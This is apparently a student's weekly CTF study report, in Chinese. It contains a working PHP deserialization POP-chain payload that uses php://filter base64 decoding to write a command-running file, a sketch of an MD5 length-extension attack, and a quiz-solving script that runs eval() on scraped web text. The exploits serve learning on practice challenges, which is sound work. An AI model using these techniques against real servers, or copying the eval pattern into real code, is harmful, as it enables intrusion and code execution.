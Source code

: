 汇报人：黄昱卓<br />日期：2023.10.15
<a name="uO6RN"></a>
## 本周内容
1.继续进行山河CTF<br />2.初步了解go语言<br />3.学习python flask
<a name="FxuA8"></a>
## 成果展示：
遇到了一道有意思的反序列化，在里面学了file_put_content的用法<br />1.**sseerriiaalliizzee**
```php
<?php
highlight_file(__FILE__);

classStart{
public $barking;
publicfunction __construct(){
$this->barking =newFlag;
}
publicfunction __toString(){
return $this->barking->dosomething();
}
}

class CTF{
public $part1;
public $part2;
publicfunction __construct($part1='',$part2=''){
$this -> part1 = $part1;
$this -> part2 = $part2;

}
publicfunction dosomething(){
$useless   ='<?php die("+Genshin Impact Start!+");?>';
$useful= $useless. $this->part2;
file_put_contents($this-> part1,$useful);
}
}
class Flag{
public function dosomething(){
include('./flag,php');
return "barking for fun!";

}
}

$code=$_POST['code']; 
if(isset($code)){
echo unserialize($code);
}
else{
echo "no way, fuck off";
}
?>
```


这道题出的非常有意思，看到了file_put_contents( )肯定是新写入一个新文件，注入一句话木马或者直接写入system(“cat /flag”)<br />首先看反序列化，Flag类中包含了一个假的flag.php，我们访问之后发现这个文件确实存在，所以我们可以利用这个文件，Start类和CTF类中都有可以传的参数，   再看最后会有一个echo反序列化的结果，这个过程会调用__tostring，我们想要使用file_put_contents( )就必须调用dosomething()，这时候CTF类中的两个参数是当然不够的，所以我们需要利用__tostring中的$this->barking->dosomething(); 这时候不能让barking指向Flag类中，所以我们在__construct触发之后就跳到CTF类中，这样就可以利用dosomething()了<br />接下来看这个死亡绕过，我们需要把这个die()绕过，可以用php伪协议base64把它转化成为乱码，然后后面传入正常base64字符，这样就可以把题目给的die()变成乱码，后面执行我们的任意代码<br />Payload:
```php
$pop =newStart;
$pop->barking =new CTF;
$pop->barking->part1="php://filter/write=convert.base64-decode/resource=flag.php";
$pop ->barking->part2="abPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=";
echo serialize($pop);
```
因为要把<?php die("+Genshin Impact Start!+");?>变成乱码但不改变后面，我们需要对base64进行补码，最多补3个，所以都是一下，最终我添加了ab两个字符成功。<br />code=O:5:"Start":1:{s:7:"barking";O:3:"CTF":2:{s:5:"part1";s:58:"php://filter/write=convert.base64-decode/resource=flag.php";s:5:"part2";s:38:"abPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWciKTs=";}}<br />2.md5长度拓展攻击<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1697891532600-655d57dc-82f8-46c4-be63-eb9007ba9420.png#averageHue=%23e9e8e7&clientId=ud928ca65-c0b5-4&from=paste&height=616&id=u53b9fcde&originHeight=616&originWidth=1124&originalType=binary&ratio=1&rotation=0&showTitle=false&size=197018&status=done&style=none&taskId=u502aa0c9-8fd7-4a27-822c-52af266d52a&title=&width=1124)<br />如图先考察parse_url解析传输的url，是个套娃，我的思路是先协议指向域名，域名再指向用户<br />然后让传输length，让num x 100 不等于整数位 num x 100 只需要传输一个小数点后3位的数字就行<br />得到了flag的md5和长度<br />然后是一个md5长度拓展攻击，我们需要用到hashpump这个工具，原理是md5的补齐算法，已知flag的最后一个字符是}<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1697891546141-ca15c89f-3a5e-4b70-9187-a154273ac501.png#averageHue=%23161616&clientId=ud928ca65-c0b5-4&from=paste&height=176&id=uc2ced056&originHeight=176&originWidth=1125&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23490&status=done&style=none&taskId=u09a55379-df58-4169-956d-6f9c2fb905e&title=&width=1125)<br />生成的md5是拼接后的md5，然后下面的是需要拼接的字符串，因为有}了所以需要删掉}，然后转换为url编码，吧\x转换成%<br />传入![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1697891554005-c1d93bc8-f181-49d7-9248-a5675ddbd6e5.png#averageHue=%23f9f8f8&clientId=ud928ca65-c0b5-4&from=paste&height=406&id=uddacf007&originHeight=406&originWidth=1013&originalType=binary&ratio=1&rotation=0&showTitle=false&size=194816&status=done&style=none&taskId=uf04782cf-fa09-4731-b423-e6d7fe74117&title=&width=1013)<br />3.快问快答<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/39135006/1697893666465-b25dd9d1-fb76-4a81-91fc-fb3e29de809a.png#averageHue=%23d0d0d0&clientId=uc35d4260-191e-4&from=paste&height=742&id=u6ad4e2d5&originHeight=742&originWidth=922&originalType=binary&ratio=1&rotation=0&showTitle=false&size=43302&status=done&style=none&taskId=u9326efaf-e62c-48c1-9563-3cedce883af&title=&width=922)<br />要求进行运算，和pwn的计算器很像，用python写一个正则表达式，然后替换异或，与，x和➗为计算机能识别的运算符，然后先抓包看一下格式，是post answer=1，所以只需要用python post answer就行了，然后因为题目要求在读到题目之后休息一秒并在2s内回答，所以我们先get拿到题目，然后post 答案<br />要注意的是python运算除号会保留小数，但是网页计算只保留整数，所以需要int()进行类型转换<br />脚本如下

```php
import requests
from bs4 import BeautifulSoup
import re
import time

url = 'http://112.6.51.212:32320/'

# 创建一个session对象，它可以在多个请求之间保持cookies
session = requests.Session()

for _ in range(50):
    # 获取网页内容
    response = session.get(url)
    soup = BeautifulSoup(response.text, 'html.parser')

    # 找到计算式并计算结果
    question = soup.find('h3').text.split('：')[1].split(' = ')[0]
    # 替换x和除号为Python运算符
    question = question.replace('x', '*').replace('÷', '/').replace('异或','^').replace('与','&')
    answer = int(eval(question))
    # 在获取页面信息后等待1.1秒
    time.sleep(1.1)

    # POST结果到网站
    response = session.post(url, data={'answer': answer})
    print(response.text)
    # 检查是否正确并输出数字
    match = re.search('你已经答对了(\d+)', response.text)
    if match:
        print('你已经答对了', match.group(1))
    else:
        print('错误的答案')
        break

```
<a name="vZ62f"></a>
## 思考
这周各个方面还是忙，学校课程高数和线代拉下了一直没时间补，web方面一下子接触的新方面有点多，这周把杂七杂八的都看了一下，比如说都学了go语言和pyflask的读码，md5的拓展攻击和file_put_content的基础用法，但是都没学精，遇到题就会卡住，一卡就卡一下午，还是需要学的东西太多了，下周再接再厉！
